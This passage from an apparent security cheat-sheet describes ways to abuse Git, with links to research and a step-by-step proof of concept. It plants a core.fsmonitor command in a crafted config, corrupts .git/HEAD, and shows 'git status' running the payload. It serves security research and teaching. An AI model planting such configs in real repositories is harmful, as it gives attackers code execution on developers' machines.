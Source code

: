 ```bash
$ git clone -- "<REPO>" "target_directory"
$ cd "target_directory"
$ git checkout "subproject"
```

References:
- [Writeup: 4 Google Cloud Shell bugs explained – bug #3](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-bug-3/)
- [Research: Git honours embedded bare repos, and exploitation via core.fsmonitor in a directory's .git/config affects IDEs, shell prompts and Git pillagers](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md)

### Abuse via .git/index

You can achieve an arbitrary write primitive using a crafted `.git/index` file, check an [advisory](https://drivertom.blogspot.com/2021/08/git.html).

### Abuse via .git/HEAD

It is possible to trick Git into loading a configuration from an unintended location by corrupting `.git/HEAD`. In such cases, Git starts looking for repositories in the current folder, which an attacker can fully control, for example, if the current folder is a working tree with all the files of the cloned remote repository. The exploitation flow may look like this:

```bash
$ git clone https://github.com/remote/repo.git
$ cd repo
# Create empty folders to comply with the expected structure of a Git repository
$ mkdir objects refs worktree
# Create non-empty HEAD to fake a valid reference
$ echo "ref: refs/heads/main" > HEAD
# Prepare a malicious the config file using core.fsmonitor to execute the payload
$ echo "[core]" > config
$ echo "\trepositoryformatversion = 0" >> config
$ echo "\tbare = false" >> config
$ echo "\tworktree = worktree" >> config
$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> config
# Corrupt the HEAD file
$ echo "" > .git/HEAD
# Exploit
$ git status
Pwned as uid=501(0xn3va)
Pwned as uid=501(0xn3va)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

References:

- [Sonar Blog: Empowering weak primitives: file truncation to code execution with Git](https://www.sonarsource.com/blog/empowering-weak-primitives-file-truncation-to-code-execution-with-git)
